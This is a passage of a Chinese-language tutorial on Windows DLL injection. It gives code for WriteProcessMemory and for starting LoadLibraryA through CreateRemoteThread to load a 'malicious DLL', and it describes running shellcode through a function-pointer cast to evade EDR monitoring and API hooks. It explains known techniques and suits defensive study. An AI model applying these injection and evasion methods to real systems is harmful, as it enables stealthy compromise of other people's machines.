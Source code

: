 - **步骤 4: 将 DLL 路径写入内存 (`WriteProcessMemory`)**
    
    C++
    
    ```
    // if (!WriteProcessMemory(
    //     hProcess,
    //     dllPathAllocatedMemory,
    //     dllLibFullPath,
    //     strlen(dllLibFullPath) + 1,
    //     NULL
    // )) { /* 错误处理 */ }
    ```
    
- 步骤 5: 加载并执行恶意 DLL (GetProcAddress, CreateRemoteThread)
    
    获取 kernel32.dll 中 LoadLibraryA (或 LoadLibraryW) 函数的地址，然后在目标进程中创建一个远程线程，使其执行 LoadLibraryA，并将先前写入的 DLL 路径作为参数传递给它。
    
    C++
    
    ```
    LPVOID pLoadLibraryA = (LPVOID)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    // if (pLoadLibraryA == NULL) { /* 错误处理 */ }
    
    // HANDLE hRemoteThread = CreateRemoteThread(
    //     hProcess,
    //     NULL,
    //     0,
    //     (LPTHREAD_START_ROUTINE)pLoadLibraryA, // 线程起始地址：LoadLibraryA
    //     dllPathAllocatedMemory,               // 传递给 LoadLibraryA 的参数：DLL路径字符串的地址
    //     0,
    //     NULL
    // );
    // if (hRemoteThread == NULL) { /* 错误处理 */ }
    // else { CloseHandle(hRemoteThread); }
    // CloseHandle(hProcess); // VirtualFreeEx(hProcess, dllPathAllocatedMemory, 0, MEM_RELEASE);
    ```
    

---

#### 内存执行替代方案 (Memory Execution Alternatives) 🤫

在某些受限环境（如 API 钩子、EDR 监控）下，标准的 `CreateRemoteThread` 可能被检测或阻止。此时，可以考虑其他内存执行方法。

##### 1. 调用函数指针 (Calling Function Pointers)

这是一种在本地进程中执行内存块（如 Shellcode）的技术，它依赖于类型转换将内存地址视为函数指针并直接调用，理论上可以避免显式的执行 API 调用。

单行代码示例：`((void(*)())addressPointer)();`

分解步骤：

1. **创建函数指针类型**: `(void(*)())` 定义了一个无参数、无返回值的函数指针类型。
2. **类型转换**: `(<function pointer>)addressPointer` 将 `addressPointer`（指向 Shellcode 的内存地址）强制转换为该函数指针类型。
3. **调用**: 最后的 `()` 执行该函数指针，即执行 Shellcode。
